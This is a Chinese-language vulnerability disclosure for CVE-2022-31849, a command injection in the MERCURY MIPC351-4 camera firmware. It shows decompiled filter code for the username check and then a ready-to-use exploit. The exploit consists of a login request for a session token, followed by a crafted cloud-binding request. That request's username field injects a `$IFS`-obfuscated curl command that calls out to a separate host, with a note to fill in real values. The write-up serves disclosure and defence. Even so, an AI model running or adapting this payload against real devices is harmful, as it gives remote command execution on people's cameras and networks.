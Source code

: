 # MERCURY MIPC351-4 存在命令注入漏洞

**漏洞厂商**: MERCURY

**厂商官网**: https://www.mercurycom.com.cn/

**影响产品**: MIPC351-4

**影响产品版本**: V5.x(20210728_1.0.8)

**固件链接**: https://service.mercurycom.com.cn/download/202111/MIPC351-4%20V5.X%E5%8D%87%E7%BA%A7%E8%BD%AF%E4%BB%B620210728_1.0.8.zip

**发现者**: [SkYe231](mailto:skye231@foxmail.com)@Hillstone

**CVE**:  CVE-2022-31849

## 漏洞描述

水星 MIPC351-4 存在远程命令执行，远程攻击者可以通过精心构造的数据包绕过限制，实现远程命令执行。

## 漏洞详情

以邮箱名作为 username 的核心过滤规则，规则仅对邮箱格式进行一些过滤（具体看代码注释），并没有对特殊符号进行过滤，存在注入的机会。

> file:/usr/bin/dsd

```c
/* 期待返回值1 */

int FUN_00024aa4(byte *param_1)

{
  size_t sVar1;
  char *pcVar2;
  int iVar3;
  
                    /* 账号为空 */
  if (param_1 == (byte *)0x0) {
    return 0;
  }
                    /* 长度为0 */
  sVar1 = strlen((char *)param_1);
  if (sVar1 == 0) {
    return 0;
  }
                    /* 限制长度<129 */
  if ((int)sVar1 < 129) {
                    /* 匹配出@ */
    pcVar2 = strchr((char *)param_1,L'@');
                    /* 没有匹配项 */
    if (pcVar2 == (char *)0x0) {
      return 0;
    }
                    /* 是否以@结尾 */
    if (param_1[sVar1 - 1] != 0x40) {
                    /* 是否以@开头 */
      iVar3 = *param_1 - 0x40;
      if (iVar3 != 0) {
        iVar3 = 1;
      }
      return iVar3;
    }
  }
  return 0;
}
```

## EXP

1. 登录后台获取 stok

    ```
    POST / HTTP/1.1
    Host: 192.168.0.103
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:100.0) Gecko/20100101 Firefox/100.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/json; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 73
    Origin: http://192.168.0.103
    Connection: close
    Referer: http://192.168.0.103/
    
    {"method":"do","login":{"username":"{your_name}","password":"{your_password}"}}
    ```

2. 发送云账号登录包，触发远程命令执行

    > 根据实际情况替换
    >
    > Stok:05173d0162e8c77387fa1bbc12b2fa62
    >
    > Command:`curl$IFS-o-$IFS'http://192.168.0.101:9999/skye231'`
    
    ```
    POST /stok=05173d0162e8c77387fa1bbc12b2fa62/ds HTTP/1.1
    Host: 192.168.0.103
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:100.0) Gecko/20100101 Firefox/100.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/json; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 147
    Origin: http://192.168.0.103
    Connection: close
    Referer: http://192.168.0.103/
    
    {"cloud_config":{"bind":{"username":"\"}';curl$IFS-o-$IFS'http://192.168.0.101:9999/skye231';'{\"@mrskye.com","password":"admin123"}},"method":"do"}
    ```
    
    


